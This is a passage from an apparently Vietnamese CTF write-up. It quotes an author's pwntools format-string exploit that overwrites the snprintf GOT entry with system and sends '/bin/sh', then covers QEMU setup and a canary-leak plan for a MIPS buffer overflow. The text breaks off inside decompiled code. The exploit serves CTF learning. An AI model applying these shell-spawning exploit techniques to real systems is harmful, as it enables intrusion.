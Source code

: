 
exp của author

```
### OVERWRITE SNPRINTF ###
"""
`0x740` are the 3 known nibbles of `system`.

I also append `0x1` because `system` and `snprintf` are far enough apart that
if all bytes of their address are the same except the last 2 bytes, the most
significant nibble of the 2 bytes has to be `0x0` or `0x1`. 
"""

p.recvuntil(b'GOAT...')
payload = fmtstr_payload(8, {elf.got["snprintf"]: p16(0x1740)}, numbwritten=24, write_size='short')
print(payload)
p.sendline(payload)


### SET UP FOR SYSTEM ###
p.recvuntil(b'@@')
p.sendline(b"/bin/sh\x00")
```

## mips

- bài này cũng khá basic , khó ở chỗ ta setup @@ do quên build docker nên mình chạy mãi ko dc , trước hết cần build docker và lấy libc patch với exe, sau đó ta có thể làm như sau: 

```css
# 1. Make a small “rootfs” directory and populate its /lib
mkdir -p rootfs/lib
cp ld.so.1 libc.so.6 rootfs/lib/

# 2. Tell QEMU that rootfs/ is your “/”
qemu-mipsel -L rootfs ./mips
```


- để debug thì dùng `gdb-multiarch` và `target remote` tới , terminal khác thì 
- `qemu-mipsel -L rootfs -g 1234 ./mips_patched
`

- 1 bài `bof` cơ bản nhưng canary bật , ta sẽ được read 2 lần để leak canary , ở `mips` giá trị của canary sẽ được lưu trữ trong `got _stack_chk_guard` ta có thể đọc địa chỉ của canary , lần đọc thứ 2 sẽ là leak canary 

```c
int sub_400B44()
{
  _DWORD *address; // [sp+1Ch] [+1Ch] BYREF
  int v2; // [sp+20h] [+20h]
  _DWORD *v3; // [sp+24h] [+24h]
  int leak; // [sp+28h] [+28h]
  char v5[16]; // [sp+2Ch] [+2Ch] BYREF

  v2 = 0;
  memset(v5, 0, sizeof(v5));
  while ( 1 )
  {
    while ( 1 )
    {
      sub_4009BC();
      v2 = sub_400A5C();
      if ( v2 != 1 )
        break;
      if ( dword_420090 < 2 )
```